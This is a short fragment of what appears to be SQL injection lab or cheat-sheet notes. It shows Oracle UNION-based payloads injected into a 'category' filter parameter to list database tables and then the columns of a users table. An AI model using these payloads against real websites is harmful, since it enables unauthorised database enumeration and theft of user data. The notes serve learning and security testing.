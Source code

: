 /filter?category='+UNION+SELECT+TABLE_NAME,NULL+FROM+all_tables--

#### Getting Column Information for a Given Table

for columns:

SELECT * FROM all_tab_columns WHERE table_name = 'USERS'

this can be used in a UNION query against an injectable parameter, like so:

' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_IMUYZD'--